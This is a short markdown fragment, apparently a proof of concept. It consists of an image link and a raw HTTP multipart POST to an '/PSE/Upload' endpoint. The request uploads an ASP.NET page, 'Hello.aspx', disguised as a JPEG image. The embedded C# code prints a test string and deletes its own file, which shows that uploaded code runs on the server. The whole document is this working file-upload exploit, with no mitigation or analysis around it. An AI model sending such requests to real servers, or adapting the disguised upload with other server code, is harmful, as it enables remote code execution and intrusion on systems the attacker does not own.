

```
POST /PSE/Upload HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2919.83 Safari/537.36
Content-Type: multipart/form-data; boundary=230982304982309
Connection: close
Content-Length: 239

--230982304982309
Content-Disposition: form-data; name="file"; filename="Hello.aspx"
Content-Type: image/jpg

<%@Page Language="C#"%><%Response.Write("HelloWorldTest");System.IO.File.Delete(Request.PhysicalPath);%>
--230982304982309--
```

